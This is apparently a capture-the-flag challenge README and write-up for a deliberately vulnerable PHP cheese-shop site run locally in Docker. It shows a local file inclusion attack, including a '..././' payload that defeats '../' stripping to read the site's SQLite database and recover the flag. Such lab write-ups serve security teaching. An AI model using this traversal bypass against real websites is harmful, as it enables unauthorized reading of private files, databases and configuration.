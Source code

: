 # cheese-factory 🧀 🏭

> web

Author: [lilc4t](https://github.com/masterT)

We make good cheeses, some smell, some don't, in all cases they're good.

http://localhost:12080/


## Setup

Requirements:
- docker

Start:

```shell
docker-compose up
```

## Writeup

### Recon

Visit the website and inspect the page and them source code.

It looks like it includes _php_ file. This means that we might be able to exploit a  [LFI](https://en.wikipedia.org/wiki/File_inclusion_vulnerability) (local file inclusion).

```
/?page=home.php
/?page=about.php
/?page=contact.php
```

Also after each "cheese" HTML block there is the comment `<!-- secret: 0 -->`. There might be a _secret_ cheese or something like that.

Let's check if there is a `/robots.txt`. Yes there is one.

```
User-agent: *
Disallow: /README.md
Disallow: /LICENSE
```

Visit `/README.md`.

```md
# The Cheese Factory

Very easy to setup the website. The cheeses are stored in an SQLite database.

## Requirements

- PHP

## Config

The entry point of the website is `./index.php`.

Modify config values in `./application/config/config.php`.

- error reporting level
- database path
- pages
- default page
- security
- etc.


### Current config recap

<!-- Too lazy to write proper sentences, just pasted the current config -->

$config = array();

// Environment
// $config['environment'] = 'production';
$config['environment'] = 'development';

// Security
$config['secure'] = true;

// Error reporting.
if ($config['environment'] === 'production') {
	ini_set('display_errors', 0);
	error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED & ~E_STRICT & ~E_USER_NOTICE & ~E_USER_DEPRECATED);
}


// Database.
$config['database-path'] = dirname(__FILE__) . '/../database/the-cheese-factory.db';
$config['db'] = new SQLite3($config['database-path']);

// Pages
$config['pages'] = array('home.php', 'about.php', 'contact.php');
$config['default-page'] = $config['pages'][0];
```

There is a lot of information here.

First it gives the location of some sensible files:

- entry `index.php`
- config `application/config/config.php`
- database `application/database/the-cheese-factory.db`

We also know there is `$config['secure']` enabled.

Finally the error reporting is not disabled.

Let's finish our recon and visit `/LICENSE`.

```
No LICENSE
```

Ok nothing interesting here.


### Exploitation

Now it's time to try exploit the possible LFI.

Let's try to break the `page` system and display an error message.

http://localhost:12080/?page=foobar

```
<!-- ... -->
Warning: include(./application/views/foobar): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/foobar' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

It looks like it tries to [include](http://php.net/manual/en/function.include.php) the file given by the param `page` in the directory `application/views`.

Let's try to include the `LICENSE` file.

http://localhost:12080/?page=../../LICENSE

```
<!-- ... -->
Warning: include(./application/views/LICENSE): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/LICENSE' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

what the heck? It looks like it striped the `../../`.

Let's try with specifying the current directory.

http://localhost:12080/?page=./../../LICENSE

```
<!-- ... -->
Warning: include(./application/views/./LICENSE): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/./LICENSE' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

It looks like it only stripped the `../` from the `page` param.

Let's try to isolate the behaviour.

http://localhost:12080/?page=foo/../bar

```
<!-- ... -->
Warning: include(./application/views/foo/bar): failed to open stream: No such file or directory in /var/www/html/index.php on line 73

Warning: include(): Failed opening './application/views/foo/bar' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 73
<!-- ... -->
```

Ok it seem to only replace the `../`.

It we want to bypass this system we need to create a `page` params that we equals to `../../LICENSE` after we would remove all `../` from it.

To do it we can insert `../` between each `../`.

1. `../../LICENSE`
2. `..././../LICENSE` (insert `../` at index 1)
3. `..././..././LICENSE` (insert `../` at index 7)

http://localhost:12080/?page=..././..././LICENSE


```
<!-- ... -->
No LICENSE
<!-- ... -->
```

Yeah!

Now let's read the content of the database.

http://localhost:12080/?page=..././..././application/database/the-cheese-factory.db

```
<!-- ... --->
SQLite format 3@  .Y
����P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�A�YtablecheesescheesesCREATE TABLE cheeses (
id INTEGER PRIMARY KEY AUTOINCREMENT,
name TEXT NOT NULL UNIQUE,
description TEXT NOT NULL,
image TEXT NOT NULL,
secret TINYINT NOT NULL
)-Aindexsqlite_autoindex_cheeses_1cheeses

9�
�t
9�d'�U�c	Secret CheeseThe most delicious cheese. Made with the secret ingredient CFI{local_file_inclusion_tastes_so_good}.https://upload.wikimedia.org/wikipedia/commons/thumb/c/c5/Red_flag_waving.svg/249px-Red_flag_waving.svg.png�Q�7�kGoudaGouda is a mild, yellow cheese made from cow's milk. It is one of the most popular cheeses worldwide. The name is used today as a general term for numerous similar cheeses produced in the traditional Dutch manner.https://upload.wikimedia.org/wikipedia/commons/thumb/f/fb/Smoked_gouda_cheese.jpg/800px-Smoked_gouda_cheese.jpg�:!�C�'MozzarellaMozzarella is a traditionally southern Italian cheese made from Italian buffalo's milk by the pasta filata method. Mozzarella received a Traditional Specialities Guaranteed certification from the European Union in 1998.https://upload.wikimedia.org/wikipedia/commons/5/57/Mozzarella_di_bufala3.jpg�|�G�)CamembertCamembert is a moist, soft, creamy, surface-ripened cow's milk cheese. It was first made in the late 18th century at Camembert, Normandy, in northern France.https://upload.wikimedia.org/wikipedia/commons/4/4d/Camembert_%28Cheese%29.jpg�M�U�=RoquefortRoquefort is a sheep milk cheese from the south of France, and together with Bleu d'Auvergne, Stilton, and Gorgonzola is one of the world's best known blue cheeses.https://upload.wikimedia.org/wikipedia/commons/thumb/b/bf/Wikicheese_-_Roquefort_-_20150417_-_003.jpg/1920px-Wikicheese_-_Roquefort_-_20150417_-_003.jpg
������'Secret Cheese	Gouda!Mozzarella
Camembert	Roquefort
��cheeses
<!-- ... --->
```

Even if we can't recreate the database from this, the content is still readable.

```
CFI{local_file_inclusion_tastes_so_good}
```

🚩
